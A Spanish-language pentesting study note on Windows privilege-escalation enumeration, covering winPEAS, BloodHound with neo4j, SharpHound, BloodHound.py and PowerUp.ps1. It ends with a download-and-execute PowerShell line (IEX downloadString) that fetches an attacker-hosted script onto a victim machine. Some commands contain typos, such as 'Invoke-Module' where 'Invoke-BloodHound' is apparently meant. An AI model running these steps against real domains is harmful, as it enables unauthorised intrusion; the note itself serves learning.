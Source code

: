 -----
- Tags: #escalada #windows #basico #teoria #practica
-----

# Recopilación exhaustiva

### Una vez probados todos los [[Intentos Básicos]] para ver si encontramos una vía potencial de escalar privilegios y que está no de resultados, podríamos intentar realizar una recopilación exhaustiva de información del sistema con herramientas automatizadas como [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) así como con la realización de **base de datos de grafos** con información del sistema. 

----

# Base de datos de grafos con neo4j

### **Neo4j** es un software libre de Base de datos orientada a grafos, implementado en Java el cual podremos utilizar junto a **Bloohound**, una herramienta visor gráfico que tiene como objetivo realizar un mapeo de todas las relaciones, configuraciones en un Dominio de Windows siendo utilizando para identificar las rutas que pueden ser complejas para identificar, falencias de configuración de usuarios y políticas. 

```bash
sudo apt install neo4j bloodhound 
```

### Una vez instaladas las herramientas, es importante tener en cuenta que se necesita la version de **java 11** para que neo4j funcione correctamente. 

```bash
sudo update-alternatives --config java
```

### Una vez seleccionada la versión 11 de java, podríamos dar comienzo a la realización de nuestra base de datos.

```bash
neo4j console &>/dev/null & disown
```

### Una vez ejecutado el comando, se nos levantará un puerto (**7474**) en donde tendremos una interfaz gráfica en la web, donde deberémos configurar nuestras credenciales de la base de datos, por default las credenciales son **neo4j:neo4j**. 

### Una vez configurada nuestra contraseña, habría que ejecutar el comando: 

```bash
bloodhound &>/dev/null & disown 
```

### Ahora solo quedaría recopilar la información del sistema windows, en caso de tener una **powershell** podríamos hacer uso de la herramienta [sharphound.psq](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1),  una vez descargada esta herramienta, solo habría que subirla a la máquian víctima y ejecutarlo 

#### Para ver como se ejecuta el scrip, desde nuestra máquina linux: 
```bash
cat Sharphound.ps1 | grep function # Output -> Invoke-Bloodhound
cat Sharphound.ps1 | grep "Invoke-Bloodhound"
```
#### Una vez que sepamos como se hace para ejecutar el script: 
```powershell
> Import-Module .\Sharphound.ps1
> Invoke-Module -CollectionMethod All
```

### Este último comando creara un comrpimido **.zip** con la información del sistema le cual deberemos descargar para posteriormente subir a la interfaz del **bloodhound**. 

### Una vez subida la información a bloodhound, está herramienta nos podrá ayudar a detectar posibles rutas para escalar privilegios, entre otras cosas.

-----

# Bloohound-python 

### La herramienta [Bloodhoun-python](https://github.com/fox-it/BloodHound.py) es una herramienta que nos permite realizar la recopilación de información del sistema sin tener acceso al mismo, como en el caso de la creación de **Base de datos de grafos con Neo4j** en donde usamos el SharpHound.ps1 para la creación de un archivo **.zip** el cual tendremos que subir posteriormente a bloodhound. 

```bash
git clone https://github.com/fox-it/BloodHound.py
mv BloodHound.py bloodhound-py
cd !$ 
python3 setup.py install 

mv bloodhound.py bloodhound-python


python3 blodhound-python -c All -u 'username' -p 'password' -ns {target_ip} -d {domain}
```
### Esto lo que hará será crear archivos **json**.

----
# PowerUp.ps1

### [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) es un script en powershell que se encarga de automatizar la búsqueda de posibles vías interesantes para el intento de escalada de privilegio, lo que es muy útil de cara a la recopilación de información.

#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1

# Una vez descargado, podemos editarlo para realizar la invocación del mismo agregando la línea 'Invoke-AllChecks'

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_uip}/PowerUp.ps1')
```

